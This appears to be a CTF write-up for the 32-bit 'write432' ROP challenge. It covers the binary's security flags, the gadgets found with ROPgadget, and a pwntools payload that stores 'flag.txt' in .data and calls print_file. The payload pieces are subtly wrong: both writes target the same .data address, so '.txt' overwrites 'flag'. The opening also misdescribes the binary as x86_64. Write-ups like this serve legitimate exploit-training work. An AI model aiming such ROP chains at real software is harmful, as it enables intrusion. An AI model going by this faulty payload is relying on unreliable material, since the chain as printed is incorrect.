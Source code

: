 # write432

In this problem, there is a function in shared library named print_file, which will open the file with its argument. The problem here is that this argument, for example "flag.txt" is too long to store in a x86_64 register. Therefore, we need to find some space to store the argument for calling print_file.

First, check the security of the binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```
Store the argument in stack is impossible because the ASLR in linux, which will make stack, heap address unknown to us.

A straightfoward solution is to store the argument in the data section of the ELF file, then make the print_file to get argument from that address.

Since PIE is disabled, data section address is known for us.   

We can use readelf command to find the address of the data section.
```
...
.data = 0x804a018 (dataSect)
...
```
Then, we need to find some rop to help us store the string "flag.txt" to the data section. We can find a gadget with two pop operations pop r1, pop r2, which means that these two registor can be controled by us. Secondly, we need to find a mov operation with the format like mov ptr[r1] [r2], so we can move the value in register r2 to the place we want to store.

Use ROPgadget to find possible gadgets.
```
ROPgadget --binary write432
```
We find two suitable gadgets.
```
...
0x080485aa : pop edi ; pop ebp ; ret (gadget1)
0x08048543 : mov dword ptr [edi], ebp ; ret (gadget2)
...
```
Firstly, we need to pop the address of data section and string "flag.txt" into edi, ebp by using gadget #pop edi ; pop ebp ; ret, and then use gadget #mov dword ptr [edi], ebp ; ret to move the string value to the data section.

Since x86 register can only store 4 bytes value one time, and the string we want to write to the data section is "flag.txt", which is 8 bytes, we need to do the write operation two times.

Next, using ghidra, we know that print_file function obtain argument from stack. Therefore, we only need to push the address of data section into stack. 

We can jump to the print_file function address, same as previous problem, we can find print_file address from plt table, and then push the string ino stack.
```
peda$ plt
...
Breakpoint 3 at 0x80483d0 (print_file@plt)
...
```
There is one thing we need to notice, print_file get argument from stack[+4], which means that the string should be pushed into stack after 4 bytes offset.
```
                **************************************************************
                *                          FUNCTION                          *
                **************************************************************
                undefined __cdecl print_file(char * param_1)
undefined         AL:1           <RETURN>
char *            Stack[0x4]:4   param_1                                 XREF[2]:     00010772(R), 
...
```
Now, we can build our payload, same as problem before, there is a 40 bytes buffer, and 4 bytes ebp.
```
'A'*44
```
Pop the address of data section and string "flag" into edi, ebp, and move the string to data section.
```
p32(gadget1) + p32(dataSect) + b'flag' + p32(gadget2)
```
Pop the address of data section and string ".txt" into edi, ebp, and move the string to data section.
```
p32(gadget1) + p32(dataSect) + b'.txt' + p32(gadget2)
```
Jump to print_file function.
```
p32(print_file@plt)
```
push the address of data section and offset into stack.
```
b'A'*4 + p32(dataSect)
```
Write exploit.py using pwntools, and we obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```

